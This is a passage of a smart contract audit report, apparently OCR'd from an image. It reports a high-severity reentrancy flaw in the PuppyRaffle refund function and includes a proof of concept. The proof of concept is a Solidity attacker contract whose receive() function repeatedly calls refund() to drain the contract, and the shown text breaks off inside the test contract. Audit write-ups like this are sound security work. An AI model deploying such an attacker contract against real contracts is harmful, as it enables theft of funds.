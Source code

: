 







### [H-2] Contract state is changed after the payment is made, leaving the contract vulnerable to a reentrancy attack 

**Description:** 
The call function is made before the contract state is changed, leaving the contract vulnerable to a reentrancy attack. 

**Impact:** 

An attacker can create an attacking contract with a reentrancy attack and drain the PuppyRaffle contract.

**Proof of Concept:**

Add the following to the `PuppyRaffle::PuppyRaffleTest.t.sol` file.

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
pragma experimental ABIEncoderV2;

import {Test, console} from "forge-std/Test.sol";
import {PuppyRaffle} from "../src/PuppyRaffle.sol";
import {StdInvariant} from "forge-std/StdInvariant.sol";

contract ReentrancyAttack {
    PuppyRaffle public puppyRaffle;
    uint256 entranceFee = 1e18;
    address feeAddress = address(99);
    uint256 duration = 1 days;

    constructor(address _puppyRaffleAddress) {
        puppyRaffle = PuppyRaffle(_puppyRaffleAddress);
    }

    // Starts the attack
    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        uint256 indexOfPlayer = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(indexOfPlayer);
    }

    // Function to receive Ether
    receive() external payable {
        if (address(puppyRaffle).balance > 0) {
            uint256 indexOfPlayer = puppyRaffle.getActivePlayerIndex(
                address(this)
            );
            puppyRaffle.refund(indexOfPlayer);
        }
    }
}

contract PuppyRaffleTest is StdInvariant, Test {
    PuppyRaffle puppyRaffle;
    ReentrancyAttack reentrancyAttack;
    uint256 entranceFee = 1e18;
    address playerOne = address(1);
```
